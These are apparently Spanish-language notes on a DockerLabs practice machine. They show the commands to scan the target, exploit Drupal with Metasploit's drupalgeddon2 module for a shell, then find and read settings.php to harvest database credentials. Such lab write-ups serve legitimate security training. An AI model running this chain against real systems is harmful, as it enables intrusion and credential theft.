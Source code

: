 Maquinas que vamos a utilizar **Kali Linux y FindYourStyle** [DockerLabs](https://dockerlabs.es/)

  

Descargar en ele escritorio de Kali. Descomprimimos el archivo y en un terminal escribimos el siguiente comando para desplegar la maquina en Docker.

```Bash
sudo bash auto_deploy.sh findyourstyle.tar
```

![[Imagenes/image 54.png|image 54.png]]

  

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 172.17.0.2 
```

![[Imagenes/image 1 43.png|image 1 43.png]]

  

- Nos vamos en el navegador y ponemos la IP para ver el puerto 80 en el navegador web
    
    ![[Imagenes/image 2 42.png|image 2 42.png]]
    

  

- Usamos la **herramienta whatweb** para ver que tecnologías utiliza la web.
    
    ```Bash
    whatweb http://172.17.0.2/  
    ```
    
    ![[Imagenes/image 3 41.png|image 3 41.png]]
    

  

- Lanzamos el Metasploit
    
    ![[Imagenes/image 4 39.png|image 4 39.png]]
    
      
    
    `search drupal 8`
    
    ![[Imagenes/image 5 38.png|image 5 38.png]]
    

`use exploit/unix/webapp/drupal_drupalgeddon2`

![[Imagenes/image 6 36.png|image 6 36.png]]

`show options`

![[Imagenes/image 7 34.png|image 7 34.png]]

Completamos los datos que nos falten.

`set RHOSTS 172.17.0.2`

`show options`

![[Imagenes/image 8 32.png|image 8 32.png]]

  

`run`

![[Imagenes/image 9 29.png|image 9 29.png]]

Ya tenemos una sesión de meterpreter

- Lanzamos una sesion de shell
    
    `shell`
    
    ![[Imagenes/image 10 25.png|image 10 25.png]]
    
      
    
- Vamos a buscar el archivo **settings.php.**
    
    > [!important] El archivo **settings.php** en Drupal **es crucial** para la configuración del sitio. Se encuentra en la carpeta `sites/default` y almacena información clave, como la conexión a la base de datos, el nombre de la base de datos, el usuario y la contraseña
    
      
    
    `find / -name settings.php 2>/dev/null`
    
    ![[Imagenes/image 11 19.png|image 11 19.png]]
    
      
    
    > [!important] `find /`: Busca en todo el sistema desde la raíz (`/`).
    > 
    > `name settings.php`: Filtra la búsqueda para encontrar archivos que coincidan exactamente con el nombre `settings.php`.
    > 
    > `2>/dev/null`: Redirige los mensajes de error generados por la búsqueda (por ejemplo, por falta de permisos) al vacío (`/dev/null`), evitando que aparezcan en la salida.
    
      
    
- Vamos a ver el contenido del archivo **settings.php**
    
    `cat /var/www/html/sites/default/settings.php`
    
    ![[Imagenes/image 12 19.png|image 12 19.png]]
    
      
    
    Aquí intentaremos encontrar contraseñas, usuarios , etc…
    
    ![[Imagenes/image 13 18.png|image 13 18.png]]
    
    ![[Imagenes/image 14 16.png|image 14 16.png]]